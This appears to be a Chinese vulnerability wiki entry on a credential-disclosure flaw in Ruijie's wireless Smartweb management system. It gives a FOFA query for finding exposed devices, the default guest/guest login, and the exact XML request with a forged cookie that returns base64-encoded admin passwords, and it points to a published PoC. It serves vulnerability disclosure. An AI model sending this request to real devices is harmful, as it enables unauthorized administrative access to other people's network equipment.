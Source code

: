 # 锐捷Smartweb管理系统 密码信息泄露漏洞

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

> [!NOTE]
>
> 锐捷网络股份有限公司 无线smartweb管理系统

## FOFA

> [!NOTE]
>
> title="无线smartWeb--登录页面"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ruijie-15.png)

默认存在 guest账户，账号密码为 **guest/guest**

其中登录的过程中搜索admin的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**，而且响应中包含了 admin密码的base64加密

![](http://wikioss.peiqi.tech/vuln/ruijie-16.png)

解密就可以获得 admin管理员的密码，尝试直接请求

```
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```

![](http://wikioss.peiqi.tech/vuln/ruijie-17.png)

直接获得所有的账户的等级标志和base64加密的账号密码

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Ruijie_smartweb_password_information_disclosure

![](http://wikioss.peiqi.tech/vuln/ruijie-18.png)

![](http://wikioss.peiqi.tech/vuln/ruijie-23.png)